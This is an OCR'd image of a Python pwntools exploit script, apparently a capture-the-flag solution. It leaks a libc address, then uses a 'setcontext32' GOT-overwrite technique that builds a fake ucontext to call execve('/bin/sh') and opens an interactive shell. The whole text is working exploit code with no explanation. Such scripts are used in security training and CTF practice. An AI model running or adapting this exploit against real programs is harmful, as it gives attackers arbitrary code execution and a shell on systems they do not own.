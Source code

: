 ```python
        0x60: r15,
        0x68: rdi,
        0x70: rsi,
        0x78: rbp,
        0x80: rbx,
        0x88: rdx,
        0x98: rcx,
        0xA0: rsp,
        0xA8: rip,  # ret ptr
        0xE0: src,  # fldenv ptr
        0x1C0: 0x1F80,  # ldmxcsr
    }, filler=b'\x00', word_size=64)
    return b


def setcontext32(libc: ELF, **kwargs) -> (int, bytes):
    got = libc.address + libc.dynamic_value_by_tag("DT_PLTGOT")
    plt0 = libc.address + libc.get_section_by_name(
        ".plt").header.sh_addr
    write_dest = got + 8
    got_count = 0x36  # hardcoded
    context_dest = write_dest + 0x10 + got_count * 8
    write_data = flat(
        context_dest,
        libc.symbols["setcontext"] + 32,
        [plt0] * got_count,
        create_ucontext(context_dest, rsp=libc.symbols["environ"] + 8,
                        **kwargs),
    )
    return write_dest, write_data


leak = int(rl(), 16)
logsym(leak)
lbase = leak - libc.sym['printf']
logsym(lbase)
libc.address = lbase

dest, payload = setcontext32(
    libc,
    rip=libc.sym["execve"],
    rdi=libc.search(b"/bin/sh").__next__(),
    rsi=0,
    rdx=0,
)
ss("write payload to {}, length {}".format(hex(dest), hex(len(payload))))
sd(p64(dest))
sd(p64(len(payload)))
sd(payload)

interact()
```
